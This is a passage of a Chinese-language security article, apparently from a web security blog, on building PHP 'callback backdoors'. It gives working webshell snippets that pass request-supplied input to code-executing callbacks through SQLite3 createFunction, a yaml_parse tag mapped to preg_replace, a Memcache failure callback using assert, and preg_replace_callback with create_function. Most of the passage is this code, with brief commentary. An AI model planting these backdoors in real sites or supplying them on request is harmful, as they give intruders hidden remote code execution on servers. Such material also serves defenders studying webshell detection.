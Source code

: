 执行之：

![enter image description here](http://drops.javaweb.org/uploads/images/107bff72fdb1974f52add26c58af934bfe30ef44.jpg)

上面的sqlite方法是依靠PDO执行的，我们也可以直接调用sqlite3的方法构造回调后门：

```
$e = $_REQUEST['e'];
$db = new SQLite3('sqlite.db3');
$db->createFunction('myfunc', $e);
$stmt = $db->prepare("SELECT myfunc(?)");
$stmt->bindValue(1, $_REQUEST['pass'], SQLITE3_TEXT);
$stmt->execute();

```

前提是php5.3以上。如果是php5.3以下的，使用sqlite_*函数，自己研究我不列出了。

这两个回调后门，都是依靠php扩展库（pdo和sqlite3）来实现的。其实如果目标环境中有特定扩展库的情况下，也可以来构造回调后门。 比如php_yaml：

```
$str = urlencode($_REQUEST['pass']);
$yaml = <<<EOD
greeting: !{$str} "|.+|e"
EOD;
$parsed = yaml_parse($yaml, 0, $cnt, array("!{$_REQUEST['pass']}" => 'preg_replace'));

```

还有php_memcached：

```
$mem = new Memcache();
$re = $mem->addServer('localhost', 11211, TRUE, 100, 0, -1, TRUE, create_function('$a,$b,$c,$d,$e', 'return assert($a);'));
$mem->connect($_REQUEST['pass'], 11211, 0);

```

自行研究吧。

0x08 其他参数型回调后门
=====

上面说了，回调函数格式为1、2、3参数的时候，可以利用assert、assert、preg_replace来执行代码。但如果回调函数的格式是其他参数数目，或者参数类型不是简单字符串，怎么办？

举个例子，php5.5以后建议用`preg_replace_callback`代替`preg_replace`的`/e`模式来处理正则执行替换，那么其实`preg_replace_callback`也是可以构造回调后门的。

`preg_replace_callback`的第二个参数是回调函数，但这个回调函数被传入的参数是一个数组，如果直接将这个指定为assert，就会执行不了，因为assert接受的参数是字符串。

所以我们需要去“构造”一个满足条件的回调函数。

怎么构造？使用`create_function`：

```
preg_replace_callback('/.+/i', create_function('$arr', 'return assert($arr[0]);'),$_REQUEST['pass']);

```
